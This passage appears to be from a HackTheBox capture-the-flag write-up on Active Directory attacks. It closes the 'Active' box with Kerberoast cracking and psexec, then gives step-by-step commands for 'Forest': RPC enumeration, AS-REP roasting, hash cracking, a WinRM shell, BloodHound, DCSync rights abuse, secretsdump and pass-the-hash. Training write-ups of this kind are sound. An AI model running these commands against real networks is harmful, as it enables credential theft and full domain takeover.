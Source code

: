 ```bash
# Step 7: Crack the Kerberos ticket
hashcat -m 13100 ticket.txt /usr/share/wordlists/rockyou.txt
# Result: Ticketmaster1968

# Step 8: psexec as Administrator
psexec.py active.htb/Administrator:'Ticketmaster1968'@10.10.10.100
# Result: SYSTEM shell, game over
```

**Key Lessons:**
- **Always check SYSVOL/Replication shares first**
- **GPP passwords still exist in many environments**
- **Service accounts often have weak passwords**
- **Kerberoasting is extremely effective**

### Box 2: Forest (HTB) - AS-REP Roasting → Exchange ACL Abuse
**Difficulty: Easy | Key Learning: AS-REP Roasting and BloodHound**

#### Attack Path: RPC Enumeration → AS-REP Roasting → BloodHound → Exchange ACL → DCSync

```bash
# Step 1: Enumerate users via RPC (no credentials needed)
rpcclient -U '' -N 10.10.10.161
rpcclient $> enumdomusers | tee users.raw
# Extract usernames
awk -F'[' '{print $2}' users.raw | awk -F']' '{print $1}' > users.txt

# Step 2: AS-REP Roasting
GetNPUsers.py -no-pass -usersfile users.txt htb.local/ -dc-ip 10.10.10.161
# Result: svc-alfresco is vulnerable to AS-REP roasting

# Step 3: Crack AS-REP hash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
# Result: s3rvice

# Step 4: Get shell with credentials
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

# Step 5: Run BloodHound collector
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns 10.10.10.161 -c All
# Import into BloodHound and analyze

# Step 6: BloodHound reveals Exchange Windows Permissions → DCSync path
# svc-alfresco is member of "Service Accounts" → "Privileged IT Accounts" → "Account Operators"

# Step 7: Abuse Exchange permissions to grant DCSync rights
# (This requires PowerView or similar tools)
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync

# Step 8: DCSync attack
secretsdump.py -just-dc htb.local/svc-alfresco:s3rvice@10.10.10.161
# Result: All domain hashes, including Administrator

# Step 9: Pass-the-Hash as Administrator
psexec.py htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
